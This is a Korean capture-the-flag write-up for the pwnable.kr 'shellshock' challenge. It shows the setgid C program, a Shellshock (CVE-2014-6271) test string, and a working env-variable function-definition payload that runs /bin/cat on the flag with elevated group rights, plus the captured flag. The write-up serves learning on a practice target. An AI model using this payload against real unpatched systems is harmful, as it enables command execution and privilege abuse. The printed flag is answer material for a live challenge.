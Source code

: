 ```yaml
---
title: Pwnable KR - shellshock
slug: pwnable-kr-shellshock
date: 2016-04-24 17:39:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR shellshock](pwnable-kr-shellshock.png)

1점 문제.

```sh
$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

flag를 보려면 shellshock2 gid가 필요하고
shellshock를 실행하면 shellshock2 gid를 얻을 수 있다.

shellshock.c 내용은 다음와 같다.

```c
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

## 풀이

shellshock 취약점은 아래 명령어로 체크할 수 있다.

```sh
env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
```

```sh
$ env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
safe~
$ env x='() { :;}; echo pwnable!' ./bash -c 'echo safe~'
pwnable!
safe~
$
```

같은 디렉토리에 있는 bash는 취약한 것을 확인했다.
shellshock 프로그램에도 적용해보자.

```sh
env x='() { :;}; /bin/cat flag' ./shellshock
```

```sh
$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
$
```

이 취약점을 통해서 내가 원하는 명령을 shellshock2의 권한으로 실행할 수 있었다.

bash는 환경변수로 함수를 정의할 수 있는데, 함수 정의가 끝난 다음에
임의의 명령을 추가로 적으면 그 명령이 실행되는 문제인 것이다.
자세한 건 다음 링크에서 공부해보도록 하자.

<https://access.redhat.com/blogs/766093/posts/1976383>
